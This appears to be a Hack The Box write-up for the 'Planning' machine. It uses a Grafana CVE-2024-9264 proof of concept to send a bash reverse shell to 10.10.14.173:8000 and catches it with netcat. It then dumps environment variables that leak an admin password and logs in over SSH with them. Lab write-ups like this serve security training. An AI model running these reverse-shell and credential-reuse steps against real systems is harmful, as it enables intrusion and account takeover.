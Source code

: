 ## Post-Machine Review
### Exploitation Path
- Start by finding the Grafana subdomain at `grafana.planning.htb`. Login with the given credentials, `admin:0D5oT70Fq13EvB5r`.
 - Use the PoC to run a reverse shell
 ```a
[lkotlus@work] [.../Nerd/htb/planning/CVE-2024-9264] [ main]  
(bash)> python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "/bin/bash -c \"bash -i >& /dev/tcp/10.10.14.173/8000 0>&1\"" http://grafana.planning.htb/  
[+] Logged in as admin:0D5oT70Fq13EvB5r  
[+] Executing command: /bin/bash -c "bash -i >& /dev/tcp/10.10.14.173/8000 0>&1"
```
- Listen on the correct port and pop the foothold shell.
```a
[lkotlus@work] [~/Nerd/htb/planning]    
(bash)> nc -nlvp 8000  
Connection from 10.10.11.68:49190  
bash: cannot set terminal process group (1): Inappropriate ioctl for device  
bash: no job control in this shell  
root@7ce659d667d7:~#
```
- Check environment variable to see:
```a
GF_PATHS_HOME=/usr/share/grafana  
HOSTNAME=7ce659d667d7  
AWS_AUTH_EXTERNAL_ID=  
SHLVL=2  
HOME=/usr/share/grafana  
OLDPWD=/var/lib/grafana  
AWS_AUTH_AssumeRoleEnabled=true  
GF_PATHS_LOGS=/var/log/grafana  
_=./linpeas.sh  
GF_PATHS_PROVISIONING=/etc/grafana/provisioning  
GF_PATHS_PLUGINS=/var/lib/grafana/plugins  
AWS_AUTH_AllowedAuthProviders=default,keys,credentials  
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!  
AWS_AUTH_SESSION_DURATION=15m  
GF_SECURITY_ADMIN_USER=enzo  
GF_PATHS_DATA=/var/lib/grafana  
GF_PATHS_CONFIG=/etc/grafana/grafana.ini  
AWS_CW_LIST_METRICS_PAGE_LIMIT=500  
PWD=/usr/share/grafana
```
- This leaks credentials `enzo:RioTecRANDEntANT!`, and we can login with this via SSH:
```a
[lkotlus@work] [~/Nerd/htb/planning]    
(bash)> ssh enzo@planning.htb  
enzo@planning.htb's password:    
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64)  
  
* Documentation:  https://help.ubuntu.com  
* Management:     https://landscape.canonical.com  
* Support:        https://ubuntu.com/pro  
  
System information as of Thu Aug  7 09:03:07 PM UTC 2025  
  
 System load:  0.0               Processes:             250  
 Usage of /:   70.1% of 6.30GB   Users logged in:       1  
 Memory usage: 54%               IPv4 address for eth0: 10.10.11.68  
 Swap usage:   0%  
  
  
Expanded Security Maintenance for Applications is not enabled.  
```
